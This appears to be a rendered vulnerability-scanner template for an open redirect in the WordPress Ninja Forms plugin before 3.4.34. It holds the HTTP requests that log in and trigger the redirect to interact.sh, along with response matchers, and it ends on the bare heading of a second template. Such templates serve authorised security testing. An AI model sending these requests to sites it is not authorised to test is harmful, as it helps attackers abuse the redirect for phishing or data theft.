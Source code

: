 # WordPress Ninja Forms \<3.4.34 - Open Redirect

## Description

- WordPress Ninja Forms plugin before 3.4.34 contains an open redirect vulnerability via the wp_ajax_nf_oauth_connect AJAX action, due to the use of a user-supplied redirect parameter and no protection in place. An attacker can redirect a user to a malicious site and possibly obtain sensitive information, modify data, and/or execute unauthorized operations.

- severity - medium
- tags - cve,cve2021,wordpress,redirect,wp-plugin,authenticated,wp,wpscan

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin-ajax.php?client_id=1&redirect=https://interact.sh&action=nf_oauth_connect HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. status_code_1 == 302
  2. status_code_2 == 302
  3. contains(all_headers_2, 'Location: https://interact.sh?client_id=1')
- condition - and

---

# Plus Addons for Elementor Page Builder \< 4.1.10 - Open Redirect
